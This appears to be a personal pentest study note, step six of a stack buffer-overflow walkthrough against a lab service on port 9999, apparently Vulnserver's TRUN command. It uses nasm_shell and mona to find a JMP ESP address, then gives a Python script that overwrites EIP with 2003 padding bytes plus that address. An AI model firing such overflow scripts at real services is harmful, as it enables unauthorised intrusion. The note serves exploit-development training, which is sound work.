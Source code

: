 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

6-Finding the Right Module

~~~bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
~~~

Search NASM for “JMP ESP” (minus the quotes). (\xff\xe4)

~~~cmd
!mona modules
~~~

~~~cmd
!mona find -s "\xff\xe4" -m module.ext
~~~

~~~python
#!/usr/bin/python
import sys, socket

#EIP->JMP ESP = "625011AF" -- Must be inserted backwards for "little indian"

eipown = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + eipown))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()

~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
